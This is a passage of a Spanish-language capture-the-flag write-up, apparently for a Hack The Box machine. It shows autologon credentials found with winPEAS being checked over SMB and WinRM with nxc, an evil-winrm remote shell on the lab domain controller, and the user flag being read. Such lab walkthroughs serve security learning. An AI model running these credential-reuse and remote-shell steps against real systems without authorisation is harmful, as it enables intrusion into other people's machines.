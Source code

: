 # User Pivoting | jdoe
Pasando el `winPEASx64.exe` encontramos unas credenciales en el autologon para el usuario `jdoe`

![Write-up Image](images/Screenshot_28.png)

```shell
$ nxc smb analysis.htb -u 'jdoe' -p '7y4Z4^*y9Zzj'
SMB         10.129.230.179  445    DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.179  445    DC-ANALYSIS      [+] analysis.htb\jdoe:7y4Z4^*y9Zzj
```
Comprobamos que son válidas..

```shell
$ nxc winrm analysis.htb -u 'jdoe' -p '7y4Z4^*y9Zzj'
WINRM       10.129.230.179  5985   DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 (name:DC-ANALYSIS) (domain:analysis.htb)
WINRM       10.129.230.179  5985   DC-ANALYSIS      [+] analysis.htb\jdoe:7y4Z4^*y9Zzj (Pwn3d!)
```
Y está en el grupo `Remote Management Users` por lo cual con `evil-winrm`..

```shell
$ evil-winrm -i 10.129.230.179 -u jdoe -p '7y4Z4^*y9Zzj'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jdoe\Documents> whoami
analysis\jdoe
```

Y podemos leer la flag de usuario
```shell
*Evil-WinRM* PS C:\Users\jdoe\Desktop> type user.txt
6c60ab7f059622a5...
```
